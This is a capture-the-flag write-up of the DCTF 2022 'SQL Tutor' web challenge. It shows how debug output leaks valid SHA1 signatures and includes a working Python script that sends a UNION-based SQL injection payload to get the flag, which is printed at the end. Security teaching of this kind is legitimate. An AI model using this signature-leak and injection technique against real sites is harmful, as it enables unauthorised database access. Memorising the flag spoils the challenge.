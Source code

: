 # DCTF 2022 SQL Tutor writeup

## Intro

**SQL Tutor** was a fun little Web challenge, scoring 200 points.

When accessing the website, I was presented with a simple Web interface. It let's me insert some text, and pick which query I want to use from a list of predefined SQL queries.

![](sqltutor.png)

There is a simple blacklist filter, preventing usage of "dangerous" characters such as ", ', and also some strings like "SELECT", "UNION" and "ORDER BY".

![](error.png)

## Network traffic analysis

Firing up Burp and viewing the traffic, I could see there is a simple HTTP API consisting of 2 endpoints.


**`/verify_and_sign_text` - Valid input**

(Input: "a")

The client-side code sends our input encoded as base64, and asks the server to do something with it invloving SHA1.

```
POST /verify_and_sign_text HTTP/2
...

text=YQ%3D%3D&alg=sha1
```

The server responds with some basic information, a signature looking like SHA1 and a mysterious `"debug":null` field.
```
HTTP/2 200 OK
...
{"status":"ok","trimmedText":"YQ==","signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5","debug":null}
```

From the JS source, I found a commented out `debug=true` parameter:
```js
$.ajax({
  type: "POST",
  url: "/verify_and_sign_text",
  data: {
    // Backend devs said that the query should be base64 encoded
    text: btoa(contents),
    alg: "sha1",
    //debug:true
  },
})
```

Setting it and sending the request again, we get some nice, detailed output.

```json
{
   "status":"ok",
   "trimmedText":"YQ==",
   "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"YQ=="
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅",
         "Trimmed and checked the text ✅",
         "Created signature: sha1(secret+sanitize(text)) ✅"
      ]
   }
}
```

So, the server is trimming and hashing our text, prefixed with some secret string - the hash becomes the "signature".

**`/verify_and_sign_text` - Invalid input**

Sending blacklisted strings in the base64-encoded input results in a different response.
```json
{
   "status":"error",
   "message":"Dangerous strings:[ \" ] in text!",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"Ig=="
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅"
      ]
   }
}
```

**Ideas**

At this point, I had some ideas:
- Maybe it's possible to find a (SHA1 collision)[https://shattered.io/], but that would be overkill + it would still not provide the secret required.
- The text trimming should be safe since it applies before validation and hashing
- The `sanitize()` call inside the `sha1()` did seem suspicious (maybe it's filtering some extra characters and doing decoding that will allow us to somehow bypass the original filter?)
- Finding the secret by using small inputs (it won't allow an empty input) and bruteforcing / searching for the cracked hash online
- Breaking the base64 parser
- Adding non-printable characters to the base64 payload
- Passing an array (`text[]=...`) as input
- Finding a query from the list that could allow injection without special characters

These directions turned out to yield uninteresting results. 

**/execute - Valid input**

After our text is signed, the JS code sends a POST request to `/execute` with the text and signature:
```
POST /execute HTTP/2
...
text=YQ%3D%3D&signature=96be85e65d1b2b44725580ca01ac70f534ed8be5&queryNo=0
```

Adding another `debug=true` to this request shows us what's going on.

```
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='a'",
   "results":[
      
   ],
   "description":"This query selects all users with the name 'a'.",
   "debug":{
      "input":{
         "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
         "text":"YQ=="
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

As expected, the server verifies the hash and allows the query to proceed if the hash matches.


**/execute - Invalid input**

I tried throwing some random text at `/execute` with `debug=true` and an unmatching signature.
```
{
   "status":"error",
   "message":"Invalid text signature, this incident will be reported!",
   "debug":{
      "input":{
         "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
         "text":"a"
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅"
      ],
      "compare":"e95d18c6c9fea0047af7fe1b3b2fe1f80b9450b9 !== 96be85e65d1b2b44725580ca01ac70f534ed8be5"
   }
}
```

Seriously..?

So, in case of mismatch it just gives you the correct hash for free.

## Solution

After a while, I've created a short script to encode and sign any input.

The remaining part was classic SQL injection with `UNION` to get the flag.

```py
import requests
import base64

def get_signature(text):
    r = requests.post('https://sqltutor.dragonsec.si/execute',
        data={
            'text': base64.b64encode(text).decode('utf-8'),
            'signature': 'FAKEEE',
            'debug': 'true',
        }).json()
    return r['debug']['compare'].split(' !== ')[0]

def inject(text, signature):
    print(requests.post('https://sqltutor.dragonsec.si/execute',
        data={
            'text': base64.b64encode(text).decode('utf-8'),
            'signature': signature,
            'debug': 'true',
            'queryNo': '0',
        }).json())

text = None

text = b"a' union select 1,2,3,flag from flags -- a"
signature = get_signature(text)
inject(text, signature)
```

And the result:
```
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='a' union select 1,2,3,flag from flags -- a'",
   "results":[
      {
         "id":1,
         "name":"2",
         "surname":"3",
         "age":"dctf{Pump_7h3_s7r3am_h4s5_up!_353aa965}"
      }
   ],
   "description":"This query selects all users with the name 'a' union select 1,2,3,flag from flags -- a'.",
   "debug":{
      "input":{
         "signature":"664b65147e414f7f19239aeb88d3a012782bc857",
         "text":"YScgdW5pb24gc2VsZWN0IDEsMiwzLGZsYWcgZnJvbSBmbGFncyAtLSBh"
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

_Let's go!_
